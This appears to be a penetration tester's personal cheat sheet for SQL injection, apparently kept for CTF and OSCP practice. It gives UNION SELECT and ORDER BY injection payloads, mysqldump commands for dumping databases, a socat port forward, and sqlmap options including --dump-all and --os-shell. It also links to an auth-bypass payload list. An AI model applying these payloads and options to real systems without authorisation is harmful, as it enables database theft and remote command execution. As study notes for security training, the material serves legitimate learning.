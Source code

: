 # sqli basic

## [Auth bypass list](https://github.com/iamkashz/ctf-scripts/blob/main/auth-bypass-sqli.txt)

## Tips

```bash
# when error; available columns = N-1
ORDER BY <N> --

# union [all] select 
UNION [ALL] SELECT 1,2,3,4 -- -
UNION [ALL] SELECT NULL,NULL,NULL,NULL -- -
```

## Using mysql-client

```bash
mysql -h <host-ip> [-P PORT]-u <username> -p [-e <SQL-QUERY-TO-RUN>]

mysqldump -u <user> -p <DB-name> > dump.mysql
mysqldump -u <user> -p --all-databases > dump.mysql
```

## sqlite3

```
# to invoke SQLite
sqlite3 <db.dump>

# to find tables
sqlite> .tables

# to check schema for table
sqlite> PRAGMA table_info(<table-name>);

# Ctrl+D to break out
```

## Start Mysql on kali

```
service mysql [status | start | stop]
/etc/mysql/mariadb.conf.d/50-server.cnf

CREATE USER 'kashz'@'localhost' IDENTIFIED BY 'kali1';
GRANT ALL ON *.* TO 'kashz'@'localhost';
flush privileges;

# listen on 3306 from tun0 IP and route to 3306 via localhost
$ socat TCP-LISTEN:3306,fork,bind=10.10.16.161 TCP:127.0.0.1:3306
```

## SQLMAP (DO NOT USE IN OSCP)

```bash
# method: POST
# capture request via burp > sql.txt

sqlmap -r <sql.txt> -p <paramter-to-check> <flag> [--proxy=http://127.0.0.1:808]

# --dbms=<mysql> or other.
# --dbs; -D <db>
# --tables; -T <table>
# --dump-all
# --os-shell
```
